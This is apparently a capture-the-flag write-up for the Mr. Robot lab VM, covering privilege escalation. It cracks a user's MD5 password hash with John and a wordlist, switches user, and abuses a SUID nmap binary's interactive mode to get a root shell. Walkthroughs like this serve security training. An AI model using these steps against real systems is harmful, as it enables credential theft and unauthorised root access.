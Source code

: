 🔓 Privilege Escalation – Mr. Robot

Now that we have a reverse shell as `www-data`, the goal is to escalate to the `robot` user and then to `root`.

---

## 👤 1. Switch to `robot` User

Use `ls` to list files under `/home/robot`:
```bash
ls -la /home/robot
````

You’ll see:

```
key-2-of-3.txt
password.raw-md5
```

Try to read `key-2-of-3.txt`:

```bash
cat /home/robot/key-2-of-3.txt
# Permission denied
```

---

## 🔐 2. Crack robot's Password

Read the hash:

```bash
cat /home/robot/password.raw-md5
# e99a18c428cb38d5f260853678922e03
```

Crack using `john` or `hashcat`:

### ➤ With John:

```bash
echo 'e99a18c428cb38d5f260853678922e03' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

✅ Output:

```
abc123
```

---

## 👥 3. Switch User to `robot`

Use the current shell or upgrade to a full shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
su robot
# Password: abc123
```

✅ You are now `robot`.

---

## 📜 4. Read Key 2

```bash
cat /home/robot/key-2-of-3.txt
# Key 2: <some long hash>
```

---

## 🔎 5. Look for Privilege Escalation to Root

Check for files with SUID permission:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Look for anything interesting, like:

* `/usr/local/bin/nmap`

If found, check the version:

```bash
nmap --interactive
```

If interactive mode is enabled:

```bash
nmap> !sh
```

✅ This spawns a root shell.

---

## 👑 6. Confirm Root Access

```bash
whoami
# root

hostname
cat /root/key-3-of-3.txt
```

---

📂 Proceed to [`flags.md`](./flags.md) to record all captured flags and final root confirmation.
